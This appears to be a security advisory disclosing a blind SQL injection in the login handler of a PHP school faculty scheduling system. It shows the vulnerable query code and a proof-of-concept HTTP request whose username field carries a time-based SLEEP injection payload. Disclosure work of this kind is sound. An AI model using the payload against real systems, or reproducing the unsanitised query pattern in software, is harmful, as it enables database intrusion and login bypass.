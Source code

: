 # Blind SQL Injection in School Faculty Scheduling System

## Vendor Homepage:
> https://www.campcodes.com/projects/php/school-faculty-scheduling-system-using-php-mysql-free-download/

## Affected Component
> /admin/ajax.php

## Code
```php
	function login(){
			extract($_POST);		
			$qry = $this->db->query("SELECT * FROM users where username = '".$username."' and password = '".md5($password)."' ");
			if($qry->num_rows > 0){
				foreach ($qry->fetch_array() as $key => $value) {
					if($key != 'password' && !is_numeric($key))
						$_SESSION['login_'.$key] = $value;
				}
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /scheduling/admin/ajax.php?action=login HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 77
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/scheduling/admin/login.php
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin


username=admin'+AND+(SELECT+8611+FROM+(SELECT(SLEEP(7)))bDqT)--+-&password=xx
```

## Screenshot
![image](https://github.com/user-attachments/assets/d3f20849-a949-453e-8a81-b6c2faf7ef26)




## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
